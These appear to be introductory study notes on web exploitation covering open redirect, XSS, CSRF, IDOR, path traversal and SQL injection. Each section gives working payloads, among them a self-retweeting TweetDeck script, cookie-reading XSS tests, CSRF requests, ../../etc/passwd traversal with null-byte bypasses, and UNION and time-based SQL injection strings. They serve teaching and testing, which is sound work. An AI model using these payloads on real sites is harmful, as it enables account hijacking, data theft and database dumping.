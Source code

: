# Intro to Web Exploitation

## Open redirect

Takes user input to redirect the client from its page to another, usually
controlled by the attacker. Low impact unless used with other vulnerabilities
to escalate. Sometimes the application has security measures to prevent user
from inputting disallowed websites, but bypass is possible; look below.

```
// Allowed
https://example.com/login/?nextPage=https://google.com

// Not allowed
https://example.com/login/?nextPage=https://attackerSite.com

// Allowed
https://example.com/login?nextPage=https://evilsite.com/?google.com
```

## Open redirect lab

This redirects to link after '@'
```
https://google.com@yahoo.com
```

## XSS

Used to execute arbitrary code on client's browser, uses:
1. Phishing
1. Dumping data
1. Account hijack

Attacker injects malicious code onto the website, clients click on link or
visit the website url then the malicious script is executed on their browser.
Executed malicious code is static and predefined. Payload had privilege that
the user has, if admin account then even higher impact.

Impact:
1. XSS medium
1. Stored XSS high-\>critical

* Reflected XSS: Payload injected from user clicking link
* Stored XSS: Payload is stored server side, user visits the link and payload
  is pulled from db
* DOM XSS: Javascript reflected from user source to function

Reflected Example:
```
example.com/page?name=ASH	 ->	Hello, ASH (Normal)
example.com/page?name=<u>ASH</u> ->	Hello, <u>ASH</u> (No XSS)
example.com/page?name=<u>ASH</u> ->	Hello, __ASH__ (Possible XSS)
```

Stored Example:
```HTML
// Tweetdeck
<script
class="xss">$('.xss').parents().eq(1).find('a').
eq(1).click();$('[data-
action=retweet]').click();alert('XSS in
Tweetdeck')</script>
```

DOM Example:
```
https://example.com/#send-transaction<div/class="header__wrap"><a/href
=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif>
</div>
```

## XSS lab

Simple test for XSS:
```
<u>test</u>
<script>alert(document.cookie)</script>
```

More complex example: (If inside tag 'input' for example)
```
"</input><script>alert(1)</script>
```

Another example: Output as a title or somewhere else
```
</title><script>alert()</script>
```

Interesting example: If input is sanitized somewhat
```
// Original code: var name = 'asd';
';+alert(1);//commentOut
```

## CSRF

Force client-side action without them user knowing that somethign happened.
There is no data being lost, but only an action being done. Example below 
shows how an attacker can submit a post request to /change-email which will
change the users email without them knowing.

Example: Post request
```HTML
<form action="change-email", method="POST">
	<label for="email">new email:</label>
	<input type="email" name="new_email">
	<button type="submit"submit</button>>
</form>
```

Example: Get request
```
<img/src="http://crypto.com/buy.php?wallet=something&amount=100&type=btc">
```

Get request above is similar, user visits a link with that in the source code
then action will happen without them knowing. Some websites have csrf tokens
for security but you may be able to remove token, and attack due to that token
not actually being used for anything. Another mistake is that websites may have
tokens but all users but you can copy a token from one user to another making it
seem like you are the user.

## IDOR

Accessing of objects that should not be allowed, so leaking information from
other users for example. Example:
```
https://example.com/api/user/1235/address
```

Changing user id will give data of that user, leaking information of any user
supplied by attacker. Sometimes ID is encrypted so not easy to locate. Sometimes
the id is not leaking through the url but through http headers:

```
{
	"id": 	      11234,
	"username:" : "admin",
	"email":      "admin@web.com"
}

Response:
{"success": true}
```

Understanding infrastructure is required for IDOR:
1. How does data get fetched?
1. How do you create new data?
1. How do you modify data?

Tasks:
1. Look for numerical ID in requests and headers
1. Creating multiple users and identifying differences:
 1. userID
 1. objectID
 1. Sessions?
1. Deobfuscate id's if needed

Leak sources:
1. User profiles
1. User avatar url `/assets/profile_picture/1235sadf-3k4/avatar.png`

## Local File Disclosure

Allows user to fetch files on local machine, thus reading configuration files
or any arbitrary files on the machine (/etc/passwd). This is an information
disclosure.

```
GET http://bank.com/view_file?image=/images/avatar.jpg
GET http://bank.com/view_file?image=../../../etc/passwd
```

First get request above is normal url that website may link to, if attacker can
input any file in the url then they are able to read files on the local host
that's hosting all these files. Sometimes need to URL encode, different other
encoding. How the host machine is configured matters a lot, different configured
machines may have different paths to files (not /etc/passwd).

```
GET http://bank.com/transaction?u=randomusername
GET http://bank.com/transaction?u=/../../../etc/passwd?%00
```

Sometimes backend application expects a certain extension, so may need to play
around setting nulllbyte, question mark or other things. Filtering may be
present, besides url encoding can try things like `..././` or `....//` those
both equal `../`. Best to automate and fuzz for this.

## SQL Injection

SQL is language to communicate with database (mysql or others), attackers can
inject sql statements that allow them to read, create or modify table entries.
This would normally be prevented via some sort of input validation.

### Error-based (older):
1. Error is given back to the user due to invalid syntax
1. This gives information to attacker as to how backend is structured

```
/app/news.php?id=1
/app/news.php?id=1'
/app/news.php?id=1'+UNION+SELECT+1,2,3--+
```

Line 1 is normal input, fetching id 1 of news id parameter. Line 2 will throw
error due to invalid syntax, which we will use to understand more about the
backend. Does it throw out error? What error? Is it vulnerable to sqli? Third
is injection to select id 1 and more stuff which the attacker might want. This
essentially leaks the database.

Attacker essentially will just guess and try different injections to try dump
the entire database if possible, given context (news here) we can try accessing
articles, title, names, and more.

```
/app/news.php?id=1'+UNION+SELECT+1,title,3--+
/app/news.php?id=1'+UNION+SELECT+1,2,3,4 from table2--+
```

First line dumps another column, title if it does exist. Otherwise it will
show an error so bruteforcing given context is needed. Attackers can also try
to access different tables from the same database (line 2). Depending on
response you might be able to dump more tables.

### Blind sql injection

Relying on if a condition is true or not, if it is true then it will allow
access to whatever you are trying to access.

```
?id=1" AND 1=1--
1'; AND sleep(5)--
'; WAITFOR DELAY '0:0:5'--
?id=1' AND substring(@@version,1,1)=5
```

Different ways to try see if a blind sql injection works. Last one tries to
bruteforce the version number of sql backend.
